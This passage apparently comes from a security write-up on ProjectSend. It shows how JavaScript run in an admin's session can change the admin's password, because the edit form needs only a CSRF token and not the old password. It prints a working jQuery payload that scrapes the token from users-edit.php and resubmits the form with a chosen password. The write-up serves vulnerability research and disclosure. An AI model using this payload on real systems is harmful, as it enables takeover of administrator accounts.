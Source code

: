 ## Changing the Password

We can now upload files and find the raw file on the server to send the link to our victim, but I promised we are changing passwords with this.

![Screenshot of form to change user information including the password](/img/2024/297b05958d4cfd5989a778cffbcd757b.png)

Do you see a problem in the user edit dialog here?

The request to change the password only needs a CSRF Token and **no** old password. As we are able to execute JavaScript in the context of a logged-in user, we can send the form. We just need to get the CSRF Token.

Getting the token is quite easy, as we are operating from the context of the server as well, therefore we can just get the edit user account form and parse all the relevant data from this form. To make things easier, we are simply using the internal jQuery library from ProjectSend.

```html
<script name = "jquery" src = "{URL}/assets/lib/jquery/jquery.min.js?v=3.6.1" type = "text/javascript"> </script>
<script>
$.ajax({
    url: '{URL}/users-edit.php?id=1',
    type: 'GET',
    xhrFields: {
        withCredentials: true
    },
    success: function(data) {
        customPassword = "password1"
        var html = $(data)
        var form = html.find('#user_form');
        form.find('input[type="password"]').val(customPassword);
        var serializedData = form.serialize();
        console.log(serializedData);
        console.log('/' + form.attr('action'))
        $.ajax({
            url: '/' + form.attr('action'),
            type: form.attr('method'),
            data: serializedData,
            success: function(response) {
                console.log("Form submitted successfully:", response);
            },
            error: function(xhr, status, error) {
                console.error("Error submitting form:", error);
            }
        });
    },
    error: function(xhr, status, error) {
        // This function is called if the request fails
        console.log("Error fetching the content: " + error); // Logs error information
    }
});
</script>
```
